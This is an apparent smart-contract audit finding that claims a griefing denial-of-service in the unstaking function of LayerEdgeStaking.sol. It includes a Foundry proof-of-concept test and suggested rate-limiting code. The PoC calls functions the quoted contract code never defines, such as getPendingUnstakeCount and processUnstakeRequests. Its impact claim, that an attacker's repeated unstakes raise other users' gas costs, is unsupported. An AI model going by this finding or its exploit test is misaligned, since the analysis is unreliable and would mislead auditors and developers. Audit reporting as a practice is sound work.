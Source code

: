 Prehistoric Coconut Aardvark

Medium

# Unstaking Griefing Risk

# Summary
The lack of rate limiting in the unstaking mechanism of [LayerEdgeStaking.sol#L518-L552](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L518-L552) will cause denial of service for all users as attackers can flood the system with unstaking requests.

## Root Cause
The unstaking mechanism in [LayerEdgeStaking.sol#L518-L552](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L518-L552) allows unlimited unstaking requests:

```solidity
function _unstake(uint256 amount) internal {
    UserInfo storage user = users[msg.sender];
    require(user.isActive, "User not active");
    require(amount > 0 && amount <= user.stakedAmount, "Invalid amount");

    // @audit No rate limiting on unstake requests
    user.stakedAmount -= amount;
    if (user.stakedAmount < minStakeAmount) {
        _removeFromTree(user.joinId);
    }
    
    // @audit Each unstake triggers expensive tier recalculations
    _checkBoundariesAndRecord(true);
}
```

This allows griefing attacks through system resource exhaustion. The issue is made worse by the tier recalculation in [LayerEdgeStaking.sol#L644-L708](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L644-L708) which is called for each unstake.

## Internal Pre-conditions
1. Attacker must have sufficient stake to initiate multiple unstake requests
2. Contract must be processing tier updates on unstake
3. No rate limiting on unstake operations

## External Pre-conditions
1. Network must be able to handle multiple transactions from same address
2. Gas prices must be low enough to make attack economically feasible

## Attack Path
1. Attacker stakes minimum required amount
2. Attacker initiates multiple small unstaking requests in rapid succession
3. Each request triggers tier recalculation
4. System resources get consumed processing updates
5. Other users' transactions get delayed or fail due to increased gas costs

## Impact
The protocol suffers degraded performance and increased gas costs. Users experience transaction delays and failures. The attacker loses only transaction fees while causing widespread disruption to protocol operations.

## PoC
```solidity
// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/stake/LayerEdgeStaking.sol";

contract UnstakeGriefingTest is Test {
    LayerEdgeStaking staking;
    address attacker;
    uint256 constant INITIAL_STAKE = 1000e18;
    uint256 constant UNSTAKE_AMOUNT = 1e18;
    
    function setUp() public {
        staking = new LayerEdgeStaking();
        attacker = makeAddr("attacker");
        vm.deal(attacker, INITIAL_STAKE);
        
        // Initial stake
        vm.prank(attacker);
        staking.stake{value: INITIAL_STAKE}();
    }
    
    function testUnstakeGriefing() public {
        // Simulate griefing attack with multiple unstake requests
        for(uint i = 0; i < 100; i++) {
            vm.prank(attacker);
            staking.unstake(UNSTAKE_AMOUNT);
            
            // Verify each unstake triggers system updates
            assertTrue(staking.getPendingUnstakeCount(attacker) > i);
        }
        
        // Verify system state after attack
        uint256 gasUsed = gasleft();
        staking.processUnstakeRequests();
        uint256 gasConsumed = gasUsed - gasleft();
        
        // Gas consumption should be significant
        assertTrue(gasConsumed > 1000000);
    }
}
```

## Mitigation
1. Implement rate limiting for unstaking in [LayerEdgeStaking.sol#L518](https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L518):

```solidity
struct UnstakeLimit {
    uint256 lastUnstakeTime;
    uint256 unstakeCount;
}

mapping(address => UnstakeLimit) private unstakeLimits;

function unstake(uint256 amount) external {
    UnstakeLimit storage limit = unstakeLimits[msg.sender];
    
    // Reset counter if new period
    if (block.timestamp > limit.lastUnstakeTime + 1 hours) {
        limit.unstakeCount = 0;
        limit.lastUnstakeTime = block.timestamp;
    }
    
    require(limit.unstakeCount < MAX_UNSTAKES_PER_HOUR, "Rate limit exceeded");
    limit.unstakeCount++;
    
    // Process unstake...
}
```

2. Add cooldown period between unstake requests
3. Implement batch processing for unstaking
4. Add minimum unstake amounts
5. Consider implementing unstaking fees that increase with frequency 